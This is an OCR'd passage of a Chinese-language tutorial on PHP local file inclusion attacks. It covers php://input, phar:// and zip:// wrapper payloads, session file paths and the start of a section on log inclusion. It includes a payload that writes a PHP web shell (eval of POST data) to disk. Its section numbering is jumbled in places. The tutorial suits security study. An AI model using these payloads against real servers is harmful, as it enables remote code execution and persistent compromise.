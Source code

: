 常见的就是在遇到`file_get_contents()`的时候，利用该伪协议读取POST数据的全部内容。

```plain
include.php?file=php://input

POST:
<?php phpinfo(); ?>//可以直接执行PHP代码（执行命令，写入shell）
or
  <?php fputs(fopen('hack.php','w'),'<?php @eval($_POST[v])?>');?>
```

##### 3. `php://input`

#### 2.3 `Phar://`

1. php>=5.3.0
2. 其它无要求

文件一定要是zip类型，但是后缀可以不以zip结尾

```
include.php?file=phar:*//test.zip/phpinfo.php*
```

#### 2.4 `zip://`

1. php>=5.3.0
2. 其它无要求

文件一定要是zip类型，但是后缀可以不以zip结尾

使用zip伪协议，需要指定绝对路径，而且压缩包文件和压缩包内的文件之间得用#，还要将#给URL编码为%23，之后填上压缩包内的文件。

```
include.php?file=zip://D:/phpStudy/PHPTutorial/WWW/test.zip%23phpinfo.php
```

### 1.3 Session文件包含

利用条件：session文件路径已知，且其中内容部分可控。



在phpinfo中的`session.save_path`存储了session文件的保存位置。

常见的session文件保存位置：

```plain
/var/lib/php/sess_PHPSESSID
/var/lib/php/sess_PHPSESSID
/tmp/sess_PHPSESSID
/tmp/sessions/sess_PHPSESSID
```

session的文件名格式为：`sess_[phpsessid]`，phpsessid它保存在本地的Cookie中。

### 1.4 包含日志

#### 4.1 中间件日志
